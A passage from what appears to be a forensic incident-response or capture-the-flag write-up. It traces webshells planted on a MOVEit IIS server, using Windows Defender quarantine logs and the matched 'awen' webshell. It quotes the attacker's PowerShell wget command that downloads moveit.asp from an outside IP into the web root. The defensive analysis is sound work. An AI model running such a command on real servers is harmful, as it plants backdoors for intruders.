 
It matches the expected output of [this
webshell](https://github.com/SecWiki/WebShell-2/blob/master/Aspx/awen%20asp.net%20webshell.aspx)
named awen perfectly.

#### moveit.asp

While I don’t need anything about this shell for the questions, there’s still
interesting stuff here. Running `grep` for `moveit.asp` just like above finds
interesting stuff. It looks like Windows defender managed to catch and
quarantine this webshell:

    
    
    2023-07-12T11:16:34.869Z SDN:Issuing SDN query for \Device\HarddiskVolume4\inetpub\wwwroot\moveit.asp (\Device\HarddiskVolume4\inetpub\wwwroot\moveit.asp) (sha1=f549ea1b040b1a36ee0e7f932386ca1cd057712c, sha2=0a841b7957377458895059e9780f802a2f75b432b0d87a6700098163eddaa276
    )
    2023-07-12T11:16:35.087Z DETECTIONEVENT MPSOURCE_REALTIME Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;
    2023-07-12T11:16:35.087Z [Mini-filter] Blocked file(#4): \Device\HarddiskVolume4\inetpub\wwwroot\moveit.asp. Process: \Device\HarddiskVolume4\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, Status: 0x0, State: 16, ScanRequest #66604, FileId: 0x32000000042d12, Reas
    on: OnClose, IoStatusBlockForNewFile: 0x2, DesiredAccess:0x0, FileAttributes:0x20, ScanAttributes:0x10, AccessStateFlags:0x1, BackingFileInfo: 0x0, 0x0, 0x0:0\0x0:0
    2023-07-12T11:16:35.087Z [MpRtp] Engine VFZ block: \Device\HarddiskVolume4\inetpub\wwwroot\moveit.asp. status=0x8070022, statusex=0x2, threatid=0x8003f5b6, sigseq=0x26677c837702
    2023-07-12T11:16:35.103Z DETECTION_ADD#1 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp PropBag [length: 0, data: (null)]
    2023-07-12T11:16:35.103Z DETECTION Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp
    2023-07-12T11:16:57.181Z DETECTION_CLEANEVENT MPSOURCE_REALTIME MP_THREAT_ACTION_QUARANTINE 0 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;
    2023-07-12T11:17:27.212Z DETECTION_ADD#1 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp PropBag [length: 0, data: (null)]
    2023-07-12T11:17:27.212Z DETECTION Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp
    2023-07-12T11:17:27.212Z DETECTIONEVENT MPSOURCE_SYSTEM Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;
    2023-07-12T11:17:47.511Z DETECTION_CLEANEVENT MPSOURCE_SYSTEM MP_THREAT_ACTION_QUARANTINE 0x80508023 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;
    2023-07-12T11:17:47.511Z DETECTION_CLEANEVENT MPSOURCE_SYSTEM MP_THREAT_ACTION_QUARANTINE 0x80508023 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;002ignedFileCheck=false, IsNotExcludedCertificate=true (FriendlySigSeq=0x0)7-12-2023 03:15:21
    

That explains why the actor gets 404 when trying to visit it. There’s also
multiple quarantine events. So while the MFT only showed me the last creation
time for `moveit.asp`, it seems like it was uploaded and quarantined multiple
times.

There’s also the `wget` command, matching what was in the PowerShell logs:

    
    
    wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
    

### Password Change
